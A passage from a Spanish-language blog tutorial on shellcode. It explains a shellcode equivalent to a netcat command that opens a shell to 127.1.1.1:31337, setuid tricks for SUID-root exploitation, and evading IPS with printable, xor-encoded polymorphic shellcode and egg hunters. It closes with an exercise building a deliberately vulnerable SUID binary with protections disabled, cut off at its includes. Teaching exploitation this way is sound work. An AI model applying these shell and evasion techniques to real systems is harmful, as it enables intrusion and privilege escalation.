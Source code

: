 Este shellcode es al final lo mismo que un `nc 127.1.1.1 31337 -e /bin//sh`, y todo en 88 bytes, bonito ¿eh?

Es necesario apuntar que a la hora de ejecutar un binario SUID, para evitar que execve() cambie el effective uid y el saved uid del programa al real uid (nuestro uid original), es necesario setear el real uid a 0 también, tarea que se puede realizar mediante una llamada al sistema como setresuid() o setuid(), o en el caso de un binario de 32 bits, setuid32() o setresuid32(). En los sistemas de 64 bits los programas de 32 bits no son tratados de igual manera (el apartbyte), por lo que al intentar hacer llamadas como setresuid() desde un ejecutable de 32 bits se devolverá el error ENOSYS, «no implementado», ya que se definen para eso syscalls como setuid32() o setresuid32(). Se pueden comprobar cuáles son las llamadas al sistema de este tipo implementadas mediante  
`cat /usr/include/asm/unistd_32.h | grep set | grep id`

No podemos olvidar que cuando el vector es a través de la línea de comandos no podemos dejar sin escapar en el payload (ya sea en el shellcode como en el relleno como en la dirección de salto) caracteres especiales como las comillas (0x22), o el espacio (0x20). Puede ser interesante saber que en un caso de explotación local se puede [incluir el shellcode en un variable de entorno](https://gist.github.com/superkojiman/6a6e44db390d6dfc329a), aun siendo un binario SUID.  
Tampoco podemos ignorar que existen los IPSs (Intrusion Prevention System). En nuestro caso por lo general funcionan restringiendo las entradas a las lógicas para lo que pide el programa, no tiene sentido que cuando el programa pida un nombre, por ejemplo, acepte valores que no sean del alfabeto (a no ser que tengas un nombre muy raro), o pidiendo un teléfono no deberían llegar otros caracteres que no sean números. En esto pueden ayudar shellcodes imprimibles (o ASCII printable shellcodes), si bien en el tema del número de teléfono uno está más bien apretado (no creo que sea posible construir un shellcode solo usando 10 posibles caracteres). Este es un tema **muy** interesante, pero **por ahora** solo os dejaré un [y un](https://nets.ec/Ascii_shellcode) [**gran ejemplo**](https://www.exploit-db.com/exploits/13284/).

Otro tema relacionado es el de los shellcodes polimórficos. Un IPS también puede reconocer un shellcode del mismo modo que un antivirus detecta un virus (de hecho los antivirus muchas veces detectan intentos de explotación). De modo que a veces es necesario un shellcode polimórfico, es decir, un shellcode que cambia drásticamente pero no cambia absolutamente lo que en último término acaba haciendo. Esto se puede lograr de distintas maneras, la más sencilla de todas es «cifrarlo» mediante un simple xor y descifrarlo en memoria mediante un _stub_ antes de saltar a él. El problema es que también se suelen detectar los _stubs_, pero si no fuese así, ¿dónde estaría la diversión? Para evitar situar en el stub la clave de descifrado (que facilita el proceso de detección), se puede emplear como código algún valor que el atacante conoce que está disponible en la máquina víctima.

Por último mencionar los _egg hunters_. En ocasiones el espacio disponible es demasiado pequeño para introducir el shellcode, así que aprovechamos otra entrada de datos para introducir el shellcode y en el vector de explotación introducimos un _egg hunter_, que básicamente se dedicará a revisar la memoria buscando nuestro shellcode (empleando para ello una cadena que actúe de identificador. Se puede diseñar fácilmente un _egg hunter_ que sea realmente pequeño (alrededor de los 30-40 bytes).

Sin embargo, el post de hoy ya ha sido suficientemente largo, y antes de caer redondo sobre el teclado prefiero dejar de escribir. En unos días traeré otro post sobre shellcodes, tratando _ASCII printable shellcodes_, _polimorfic shellcodes_ y _egg hunters_. Buenas tardes.

Emplea 3 4 (¿o por qué no 5 o 6?) shellcodes distintos para explotar el siguiente programa  
\[Compilar con `gcc -fno-stack-protector -D_FORTIFY_SOURCE=0 -z execstack -no-pie -fno-pie -m32 vuln.c -o vuln` y convertir en binario SUID de root (`sudo chown root:root vuln ; sudo chmod u+s vuln`) y ejecutar en un sistema con ASLR desactivado\].  

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
